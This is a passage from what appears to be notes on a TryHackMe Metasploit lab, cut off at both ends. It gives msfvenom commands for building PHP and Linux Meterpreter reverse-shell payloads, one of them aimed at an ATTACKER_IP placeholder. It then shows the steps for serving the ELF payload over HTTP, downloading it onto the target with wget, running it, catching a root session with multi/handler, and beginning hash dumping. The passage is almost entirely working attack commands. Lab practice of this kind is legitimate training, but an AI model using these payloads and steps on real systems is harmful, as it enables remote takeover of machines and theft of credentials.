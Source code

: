 * **PHP Reverse Shell**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f raw > shell.php
```


####  Practical Walkthrough (TryHackMe Lab)

1. **Generate ELF payload on attacker machine**

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.201.111.196 LPORT=4444 -f elf -o shell.elf
```

2. **Transfer payload to target (Murphy’s machine)**

   * Start a Python web server in same folder:

   ```bash
   python3 -m http.server 9000
   ```

   * On target (Murphy):

   ```bash
   wget http://10.201.111.196:9000/shell.elf
   chmod +x shell.elf
   ```

3. **Set up multi/handler on attacker**

```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.201.111.196
set LPORT 4444
run
```

4. **Trigger payload on target**

```bash
./shell.elf
```

5. **Session opened!**

```bash
meterpreter > getuid
Server username: root
meterpreter > ls
```

#### Post Exploitation – Dumping Hashes

1. **Background the session**

```bash
meterpreter > background
```
